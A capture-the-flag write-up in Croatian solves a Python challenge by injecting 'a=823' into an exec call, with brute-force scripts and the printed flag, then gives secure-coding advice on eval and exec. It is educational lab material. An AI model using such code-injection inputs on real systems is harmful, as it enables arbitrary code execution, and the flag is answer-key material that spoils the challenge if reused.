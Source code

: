 # Writeup
Zadatak se sastoji od jednog python programa koji očekuje korisnički ulaz kao naziv i vrijednost varijable.

S obzirom na ograničenu veličinu korisničkog ulaza, može se probati izraditi _bruteforce_ na sve moguće kombinacije brojeva:

```
import subprocess

def rjesiMisiju(prvi_input,drugi_input):
    ulaz = f"{prvi_input}\n{drugi_input}\n"
    rezultat = subprocess.run(
        ["python3", "misija.py"],
        input= ulaz,
        capture_output=True,
        text=True
    )
    output = rezultat.stdout.strip()
    return output

for broj in range(100000):
    output = rjesiMisiju("b",str(broj))
    print(f"Ulaz: {str(broj)} --> Izlaz: {output}")
    if "ERROR" not in output:
            print(f"Uspjeh: {str(broj)}")
            break
else:
    print("Nije pronaden ispravni broj!")

```

Ovaj pokušaj nije dao rješenje.
Najveći problem je ovaj uvjet:

```
if(eval(f"(({ime}*20) != (a * (-2 + (4 * 3) + 10 )))")):
        print("ERROR - Krivo 3")
        return False
```

Kada se on skrati, postane vrlo jednostavan:

```
if(eval(f"( {ime} != a)")):
        print("ERROR - Krivo 3")
        return False
```

To znači da vrijednost korisničke varijable i varijable ```a``` mora biti jednaka.
Trenutno je vrijednost varijable ```a``` postavljeno na početku programa na ```2```.
Ne postoji drugi dio programa koji mijenja vrijednost varijable ```a```.

Detaljnijim pregledom kod programa, može se uočiti jedan sumnjivi dio:

```
zabranjeni_znakovi = {"(",")","+","-","=","/","*","_",",",".","'",'"',"$",":"," ","\\","a"}
...
zabranjeni_znakovi = {"(",")","+","-","/","*","_",",",".","'",'"',"$",":"," ","\\"}
```

Razlika prikazanih skupova znakova je u tome da drugi skup znakova ne sadrži znakove ```=``` i ```a```.
Zapravo, kod drugog skupa znakova moguće je korištenje funkcije ```exec``` za manipuliranje vrijednosti varijable ```a```.
```
exec(f"{ime_varijable}={vrijednost_varijable}")
```

Kao korisnički ulaz vrijednosti varijable može se unijeti: ```a=123```.
Tako funkcija ```exec``` zapravo izvrši slijedeću naredbu: ```b=a=123```.
Ovim načinom obje varijable poprime istu vrijednost.

Može se preurediti prva _bruteforce_ skripta tako da provjerava sve moguće zajedničke vrijednosti korisničke varijable i varijable ```a```.

```
import subprocess

def rjesiMisiju(prvi_input,drugi_input):
    ulaz = f"{prvi_input}\n{drugi_input}\n"
    rezultat = subprocess.run(
        ["python3", "misija.py"],
        input= ulaz,
        capture_output=True,
        text=True
    )
    output = rezultat.stdout.strip()
    return output

for broj in range(1000):
    output = rjesiMisiju("b",str(broj))
    print(f"Ulaz: {str(broj)} --> Izlaz: {output}")
    if "ERROR" not in output:
            print(f"Uspjeh: {str(broj)}")
            break
else:
    print("Nije pronaden ispravni broj!")
```



Prvi broj koji je uspio rjesiti misiju je ```823```.
S korisničkim unosom ```b``` i ```a=823``` ispiše se flag: ```CTFFOI[3vAls_4nD_Ex3cs]```.

## Edukativne smjernice
- Nikada se ne preporuća koristiti ```exec``` ili ```eval``` na neprovjerenom korisničkom unosu jer korisnik tako može izvršiti proizvoljan kod.
- Umjesto korištenja ```exec```, preporuća se koristi sigurnije funkcije za parsiranje (npr. ```ast.literal_eval```).
- Potrebo je pažljivo definirati dozvoljeni skup znakova u korisničkom unosu. Dopuštanje jednog nepoželjnog znaka ponekad može rezultirati ozbiljnim sigurnosnim propustom.


